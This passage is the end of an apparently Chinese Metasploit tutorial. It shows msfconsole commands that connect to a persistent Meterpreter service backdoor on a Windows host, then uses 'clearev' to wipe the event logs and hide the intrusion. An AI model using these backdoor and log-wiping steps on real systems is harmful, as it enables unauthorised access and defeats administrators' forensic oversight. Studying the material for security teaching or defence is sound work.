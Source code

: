 
之后电脑就默默生成了一个自启服务Meterpreter

然后连接后门

    
    
    msf exploit(handler) > use exploit/multi/handler
    msf exploit(handler) > set payload windows/metsvc_bind_tcp
    payload => windows/metsvc_bind_tcp
    msf exploit(handler) > set RHOST 10.42.0.54
    RHOST => 10.42.0.54
    msf exploit(handler) > set LPORT 31337
    LPORT => 31337
    msf exploit(handler) > exploit
    

#### 清理痕迹:)

    
    
    meterpreter > clearev
    [*] Wiping 12348 records from Application...
    [*] Wiping 1345 records from System...
    [*] Wiping 3 records from Security...
    

# 0x05 And So On...

* * *

Look it

[Tree](http://www.c-chicken.cc/msf.txt)

Meterpreter太强大～

待续补充完整：）

不足请见谅:)

Thanks:

  * <http://drops.wooyun.org/tips/24>
  * <http://drops.wooyun.org/tips/5234>

